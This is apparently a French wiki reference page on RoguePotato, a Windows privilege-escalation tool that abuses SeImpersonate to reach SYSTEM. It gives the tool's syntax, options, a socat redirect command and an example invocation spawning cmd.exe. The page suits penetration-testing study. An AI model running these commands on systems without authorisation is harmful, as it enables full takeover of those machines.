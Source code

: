 ```yaml
---
title: RoguePotato
description: Permet d'utiliser les privilèges SeImpersonate pour escalader les privilèges jusqu'au compte NT AUTHORITY\SYSTEM
published: true
date: 2025-05-04T14:55:19.076Z
tags: outil, windows
editor: markdown
dateCreated: 2024-07-13T10:59:42.756Z
---
```


# Introduction

RoguePotato permet d'utiliser le privilège SeImpersonate pour escalader les privilèges jusqu'au compte NT AUTHORITY\SYSTEM.

> RoguePotato est disponible au téléchargement ici: https://github.com/antonioCoco/RoguePotato
> {.is-info}

> RoguePotato est une alternative à Juicy Potato, qui ne fonctionne pas sur les versions après Windows Server 2019 et Windows 10 build 1809.
> {.is-info}

# Syntaxe

`RoguePotato.exe -r [Adresse IP] -e [commande] [options]`

# Options

| Option            | Description                                                                                                         |
| ----------------- | ------------------------------------------------------------------------------------------------------------------- |
| `-r [Adresse IP]` | Spécifie l'adresse de la machine distante à utiliser comme redirecteur                                              |
| `-e [commande]`   | Spécifie la commande à exécuter                                                                                     |
| `-l`              | Spécifie le port d'écoute du RogueOxidResolver                                                                      |
| `-p`              | Nom du canal nommé à utilisé (par défaut: RoguePotato)                                                              |
| `-z`              | Rend aléatoire le nom du canal nommé utilisé (ne pas utiliser avec -p)                                              |
| `-c`              | Précise le CLSID utilisé (par défaut, celui du Service de transfert intelligent en arrière-plan (BITS) est utilisé) |

> Pourquoi le CLSID du Service de transfert intelligent en arrière-plan (BITS) est utilisé par défaut? C'est simple, le CLSID de BITS est le même entre chaque machine. Il est possible de préciser d'autres CLSID pour utiliser d'autres token
> {.is-info}

# Exemples

1. Sur la machine attaquante, utiliser socat pour rediriger le port 135 (RPC) sur le port 9999 de la machine cliente (il faut utiliser le même port sur la machine cliente, celui-ci n'est pas forcément le port 9999):

`socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999`

2. Lancement de RoguePotato sur la machine cliente avec l'adresse de la machine attaquante comme ip distante, comme commande "cmd.exe" et comme port 9999 (le même que précisé antérieurement)

`RoguePotato.exe -r 10.0.0.2 -e "C:\windows\system32\cmd.exe" -l 9999`

# Voir aussi

Fonction CreateProcessWithTokenW:
https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw

Fonction CreateProcessAsUser:
https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera

Liste des CLSID (peut être incomplet):
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

Pourquoi JuicyPotato ne fonctionne pas sur les versions après Windows Server 2019 et Windows 10 build 1809:
https://decoder.cloud/2018/10/29/no-more-rotten-juicy-potato/

Présentation et fonctionnement basique des potatoes:
https://jlajara.gitlab.io/Potatoes_Windows_Privesc#juicyPotato
